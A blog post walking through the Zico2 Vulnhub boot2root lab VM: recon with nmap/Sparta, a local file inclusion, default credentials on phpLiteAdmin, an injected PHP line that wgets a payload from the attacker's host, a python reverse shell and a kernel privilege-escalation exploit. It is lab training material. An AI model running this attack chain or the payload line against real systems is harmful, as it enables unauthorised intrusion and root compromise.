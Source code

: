 ```yaml
---
layout: post
title: Zico2 Vulnhub Walkthrough
tags: pentesting
---
```

Hey guys

Zico2 is a boot2root vulnerable virtual machine available from https://www.vulnhub.com/entry/zico2-1,210/
It boasts a web-application running on bootstrap+phpliteadmin, but with a couple of enumeration, we can drop down to root pretty easily. 

First, we identify the IP address of the booted VM. I like to use netdiscover.

<img src="{{ site.url }}/images/2017-11-30/recc0.PNG" >

<img src="{{ site.url }}/images/2017-11-30/recc1.PNG" >

192.168.56.5 was the only one ping-able, so we can assume that it is our target (the others are for virtualbox). Your IP address will defer according to your DHCP server settings on your virtualbox/VMware/Hyper-V-thingie

The next step will be to launch a full nmap scan, among with other scans. Sparta is a great tool for the job, launching full nmap, nikto, and even smb/snmp/smtp scans whenever it detects the relevant applications running on the target. Let's launch that, and point it to our target. Hit run, and we should get results soon

<img src="{{ site.url }}/images/2017-11-30/recc2.PNG" >

*side note, Spata appears to be created when one of the authors was Trying Harder at OSCP. 


Sparta's nmap scan pointed out a web-server running (duh), along with other ports that are quite unresponsive. The Nikto scan launched on the default webpage yielded little. However, if we manually explore the website, we will come across a view.php url

<img src="{{ site.url }}/images/2017-11-30/lfi0.PNG" >

<img src="{{ site.url }}/images/2017-11-30/lfi0.1.PNG" >

Launching a Nikto scan manually on THAT gives us something a bit more interesting. Namely, LFI (Local File Inclusion, the ability to read or even execute local files on the target)

<img src="{{ site.url }}/images/2017-11-30/lfi1.png" >

<img src="{{ site.url }}/images/2017-11-30/lfi2.png" >

I couldn't get Remote File Inclusion from LFI, so I took a step back and decided to Dirb the whole site.

<img src="{{ site.url }}/images/2017-11-30/dirb0.PNG" >

<img src="{{ site.url }}/images/2017-11-30/dirb1.PNG" >


dbadmin certainly sounds suspiciously man-made, and sure enough, we find a database administration portal in the form of PhpLiteAdmin 1.9.3 running behind it

<img src="{{ site.url }}/images/2017-11-30/phpLiteAdmin.PNG" >

It even uses the password "password"!

<img src="{{ site.url }}/images/2017-11-30/phpLiteAdmin2.PNG" >

Logging in is great, but what's even better is the Remote Code Execution that follows. A simple search on the exploitdb database (in my case, using the offline searchsploit feature), yielded a few RCEs just for this phpLiteAdmin version
 	
<img src="{{ site.url }}/images/2017-11-30/rce0.PNG" >

Let's follow the steps specified in the 24044 exploit. I created a cmdinj.php database, made a new table, and set a default text to 
{% highlight ruby %}
<?php echo_shell('wget 192.168.56.4/cmd.txt -O /tmp/cmd.php; ls /tmp');?>
{% endhighlight %}

<img src="{{ site.url }}/images/2017-11-30/rce1.PNG" >

<img src="{{ site.url }}/images/2017-11-30/rce2.PNG" >

<img src="{{ site.url }}/images/2017-11-30/rce3.PNG" >

Here's what cmd.txt looks like on my attacker's machine

<img src="{{ site.url }}/images/2017-11-30/rce3.5.PNG" >



Here's when the LFI becomes really useful. Navigating to the /tmp/cmd.php file, we now have a reliable code injection!

<img src="{{ site.url }}/images/2017-11-30/rce4.PNG" >


Upgrading to a shell can be done by using the python rev shell. See http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet for more details and alternatives.
It didn't work until I encoded it to be URL-friendly. I used google to grab one (https://meyerweb.com/eric/tools/dencoder/)

<img src="{{ site.url }}/images/2017-11-30/revshell0.PNG" >

Then, injecting this encoded command into the URL, and we get a reverse shell on our attacker's netcat listener! We get interactive with a python one-liner

<img src="{{ site.url }}/images/2017-11-30/revshell1.PNG" >

<img src="{{ site.url }}/images/2017-11-30/revshell2.PNG" >


Privilege Escalation can be done by exploiting a kernel vulnerability. We first obtain information about the kernel, and with our handy Searchsploit, quickly found one that is useful

<img src="{{ site.url }}/images/2017-11-30/privesc0.PNG" >

<img src="{{ site.url }}/images/2017-11-30/privesc1.PNG" >

We compile it on our attacker's machine, and using a simple python3 server, leverage the limited shell to get it onto our victim's machine

<img src="{{ site.url }}/images/2017-11-30/privesc2.PNG" >

<img src="{{ site.url }}/images/2017-11-30/privesc3.PNG" >

<img src="{{ site.url }}/images/2017-11-30/privesc4.PNG" >

Running it ACCORDING TO THE COMMENTS IN THE CODE nets us root (you can see my blunders)

<img src="{{ site.url }}/images/2017-11-30/privesc5.PNG" >

I truncated the flag, because that's for you to get. 


All in all, not a difficult boot2root. If you enumerate plentifully and plan well, this machine is very doable.

--SeraphimX
